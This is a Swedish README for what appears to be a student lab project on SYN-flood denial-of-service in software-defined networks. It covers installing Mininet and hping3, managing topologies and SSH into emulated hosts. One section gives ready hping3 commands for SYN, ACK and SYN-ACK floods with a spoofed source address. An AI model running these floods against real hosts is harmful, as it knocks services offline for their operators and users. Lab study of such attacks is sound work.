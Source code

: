 # SYN-FLOOD-DOS-ATTACKER-I-SDN
Den här samlingen av dokument innehåller en guide till hur Mininet och Hping3 installeras. Dokumentationen innehåller även attack-kommandon och SSH.

## Installation av Mininet i UBUNTU

Börja med att installera Mininet med följande kommando `sudo apt-get install mininet`.

Installera git kommandot `sudo apt-get install git`.

För att installera Mininet från källkoden behöver du installera källkoden `git clone git://github.com/mininet/mininet`.

I Mininet hitta `git tag` och sedan Kopiera tag.

Skapa en ny gren med tagen du kopierade `git checkout -b "tag"`.

Ladda ned verktyg för Mininet `mininet/util/install.sh -a`.

Lägg till din linux distribution, den finns på toppen när du laddar ned `mininet/util/install.sh -a "din linux distribution"`.

## Starta Mininet

För att starta en simpel Mininet topologi skriver du `sudo mn` det skapar en Mininet topologi med en kontroller, switch och två host. Använd våra Python skript för att skapa våra topologier.

## stäng Mininet

Stäng mininet genom `sudo mn -c`

## Installation av hping3

Ladda ned Hping3 med `sudo apt-get install hping3`

## Hping3 attack-kommandon

SYN-flood attack `hping3 "target ip-address" --syn --flood -a 10.0.0.13`.

ACK-flood attack `hping3 "target ip-address" --ack --flood -a 10.0.0.13`

SYN-ACK-flood attack `hping3 "target ip-address" --syn --ack --flood -a 10.0.0.13`

## SSH daemon
För att kunna köra ssh till Mininet skriver du `sudo ~/mininet/examples/sshd.py`.

Nu kan du ssh från en annan terminal till en host `ssh "host IP-adress"`